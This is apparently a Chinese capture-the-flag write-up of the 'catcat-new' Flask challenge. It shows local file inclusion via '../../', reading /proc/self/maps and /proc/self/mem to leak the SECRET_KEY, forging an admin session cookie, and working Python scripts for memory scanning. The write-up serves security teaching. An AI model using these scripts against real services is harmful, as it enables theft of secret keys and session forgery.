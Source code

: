 # Flask-session 伪造

从攻防世界里面找到的题目，以为比较简单，结果发现是没见过的方法（还在文件包含上试了好久）。但是最后用原作者和 WP 中提供的代码也没成功返回 flag（感觉是 bug？），但是解法和思路是没错的。

---

## 从题目说起：catcat-new

打开网站可以看到一个界面，什么都看不出来

![](./img/1.png)

随意点开一个内容，可以看到里面的详细内容

![](./img/2.PNG)

从地址栏可以看到内容是通过文件包含的形式展现的，先推测存在**文件包含漏洞**

![](./img/3.png)

测试后发现确实存在本地文件包含漏洞，且测试一共存在两级目录，即使用 `../../` 返回两级目录即可到达 `/` 根目录

但下一步尝试了很多常见敏感目录，探查网页框架。**发现并不是常见的 PHP 框架**

***（启发：虽然是 php 常见漏洞，但是框架可以是其他的，需要多尝试）***

随后再次尝试其他框架，推测是 python 框架，使用 `app.py` 这个 flask 默认文件名读取

![](./img/4.png)

成功获取源代码

整理后得到

```python
import os 
import uuid 
from flask import Flask, request, session, render_template, Markup 
from cat import cat  

flag = "" 
app = Flask(  __name__,  static_url_path='/', static_folder='static') 
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh" 
if os.path.isfile("/flag"):  
	flag = cat("/flag")  
	os.remove("/flag")  

@app.route('/', methods=['GET']) 
def index():  
	detailtxt = os.listdir('./details/')  
	cats_list = []  
	for i in detailtxt:  
		cats_list.append(i[:i.index('.')])    
		return render_template("index.html", cats_list=cats_list, cat=cat)    

@app.route('/info', methods=["GET", 'POST']) 
def info():  
	filename = "./details/" + request.args.get('file', "")  
	start = request.args.get('start', "0")  
	end = request.args.get('end', "0")  
	name = request.args.get('file', "")[:request.args.get('file', "").index('.')]    
	return render_template("detail.html", catname=name, info=cat(filename, start, end))     

@app.route('/admin', methods=["GET"]) 
def admin_can_list_root():  
	if session.get('admin') == 1:  
		return flag  
	else:  
		session['admin'] = 0  
		return "NoNoNo"    


if __name__ == '__main__':  app.run(host='0.0.0.0', debug=False, port=5637)
```

可以看到共有三个路由节点，而 flag 就在 `admin` 节点中（通过目录搜索也能找到 admin 节点）

可以看到重点在于修改 session 中 admin 的值为 1 从而得到 flag
此外还有一个 cat 包中的 cat 函数，也可以通过文件包含的方式得到源代码 `cat.py`

```py
import os, sys, getopt

# 核心函数
def cat(filename, start=0, end=0)->bytes: 
    data = b\'\'  
    try: 
        start = int(start) 
        end = int(end)  
    except: 
        start=0 
        end=0  
    if filename != "" and os.access(filename, os.R_OK): 
        f = open(filename, "rb") 
        if start >= 0: 
            f.seek(start) 
            if end >= start and end != 0: 
                data = f.read(end-start)  
            else: 
                data = f.read()  
        else: 
            data = f.read()  
        f.close()  
    else: 
        data = ("File `%s` not exist or can not be read" % filename).encode()  
    return data
        
# 无关紧要    
if __name__ == \'__main__\': opts,args = getopt.getopt(sys.argv[1:],\'-h-f:-s:-e:\',[\'help\',\'file=\',\'start=\',\'end=\']) fileName = "" start = 0 end = 0  for opt_name, opt_value in opts: if opt_name == \'-h\' or opt_name == \'--help\': print("[*] Help") print("-f --file File name") print("-s --start Start position") print("-e --end End position") print("[*] Example of reading /etc/passwd") print("python3 cat.py -f /etc/passwd") print("python3 cat.py --file /etc/passwd") print("python3 cat.py -f /etc/passwd -s 1") print("python3 cat.py -f /etc/passwd -e 5") print("python3 cat.py -f /etc/passwd -s 1 -e 5") exit() elif opt_name == \'-f\' or opt_name == \'--file\': fileName = opt_value  elif opt_name == \'-s\' or opt_name == \'--start\': start = opt_value  elif opt_name == \'-e\' or opt_name == \'--end\': end = opt_value if fileName != "": print(cat(fileName, start, end))   else: print("No file to read")
```

可以发现 cat 函数就是用于文件包含的函数，且存在两个参数 `start` 和 `end` 限定读取的头尾（该设定在下面有重要作用）

想要修改 session 的内容，需要获取 `secret_key` 的值

源代码中可以看到 `secret_key` 的值由 `uuid.uuid4()` 函数加一串固定字符生成

![](./img/5.png)

查询可知 uuid4 版本会生成 32 位随机十六进制字符，**基本不可能暴力破解**

---

## 知识点

### python 存储对象的位置在堆上

app 是实例化的 Flask 对象

```py
app = Flask(__name__, static_url_path='/', static_folder='static')
```

而 secret_key 存储在 `app.config['SECRET_KEY']`

### 可以通过读取 /proc/self/mem 获取 secret_key

### `/proc/self/mem` 是当前进程的内存内容，但是其中存在大量不可读写的内容，需要结合 `/proc/self/maps` 中的偏移地址进行读取

直接读取 mem 崩溃：

![](./img/6.png)

读取 maps （大量内容）：

![](./img/7.png)

设定 start 和 end 的值后可以限制读取区域（用于防止读 mem 时崩溃）：

![](./img/8.png)

---

## 回到题目

编写代码读取 secret_key

```py
# read /proc/self/maps
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\n")   # 去除换行符
for i in map_list:
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)   # 通过正则匹配可读写区域
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)

        # read /proc/self/mem
        secret_key = None
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")   # 在每个可读写区域读取内容
        if "*abcdefgh" in res.text:
            secret_key = re.findall("[a-z0-9]{32}\\*abcdefgh", res.text)    # 通过正则匹配固定字符串从而匹配 secret_key
        if secret_key:
            print("Secret Key:", secret_key[0])
            sk = secret_key[0]
            break
```

通过该代码即可获取 secret_key

最后使用 `flask-unsign` 或 `flask_session_cookie_manager` 或自己编写等方式，构造数据为 `{'admin':1}` 的 session 并发送即可

## 彩蛋

通过直接在 `mem` 中读取 flag 也可行，需要提前知道 flag 的形式
（已知 flag 形式为 `catctf{xxx}`）
代码如下：

```py
map_list = requests.get(url + f"info?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\\n")
for i in map_list:
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)

        # directly find flag in mem
        res = requests.get(f"{url}/info?file={bypass}/proc/self/mem&start={start}&end={end}")
        if "catctf{" in res.text:
            with open('flag.txt', 'w') as f:
                f.write(res.text)
                f.close()
            break
        else:
            continue
```

将存在 flag 的内容段保存后用查找功能即可

![](./img/9.png)

---

## 工具介绍
[Paradoxis/Flask-Unsign: Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.](https://github.com/Paradoxis/Flask-Unsign)

[noraj/flask-session-cookie-manager: :cookie: Flask Session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager)

---

## 参考资料

出题人博客：
[CTF中Python_Flask应用的一些解题方法总结 | Savant's Blog](https://blog.lxscloud.top/2022/10/09/CTF%E4%B8%ADPython_Flask%E5%BA%94%E7%94%A8%E7%9A%84%E4%B8%80%E4%BA%9B%E8%A7%A3%E9%A2%98%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93/)

题目来源：
[攻防世界](https://adworld.xctf.org.cn/challenges/list)
